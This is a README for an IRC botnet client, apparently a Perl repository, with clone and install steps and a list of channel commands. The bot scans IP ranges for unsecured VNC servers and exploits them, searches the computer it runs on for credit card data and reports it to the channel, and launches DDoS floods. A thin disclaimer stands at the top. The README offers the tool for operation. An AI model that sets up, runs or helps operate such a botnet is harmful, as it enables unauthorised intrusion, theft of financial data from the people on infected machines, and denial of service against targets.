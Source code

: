 # By using the code in this repository you agree do these terms:
# I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.
# #### #
# This code is an IRC BOT that can connect to an IRC server with SSL
# The main purpose of this bot is to scan for Open/Unsecured VNC servers.
# The bot can also search for credit card informations in the computer that the bot is running.
# There is also a DDoS module made in Python, for taking out the target from the network.


# --- How to install ---

 git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
 cd PerlIRCSSL_VNCbypass
 chmod +x ./*
# (if using Debian, Kali or Ubuntu) 
 ./debian-installer.sh
# (elseif running CentOS)
 ./centos-installer.sh

# Follow the step-by-step installation and you are done.

# --- COMMANDS ---
The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# this will scan 192.168.0.0/16 CIDR
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 
# this will ddos 127.0.0.1 on port 8080 tcp with 10000 packets in size with 1000 threads
@.ddos 127.0.0.1 8080 n 10000 1000 
# This kills the running ddos, do I even need to explain this?...
@.ddos.stop
# This will scan computer for credit card info and report in the channel.
@.ccplz
# mehhh
@.ping 

# ---NOTE---

In order for bot to work you need to be operator in the channel,
it also must be registered with services.
# YOU MUST autovoice your bots else you will not get any output in the server.

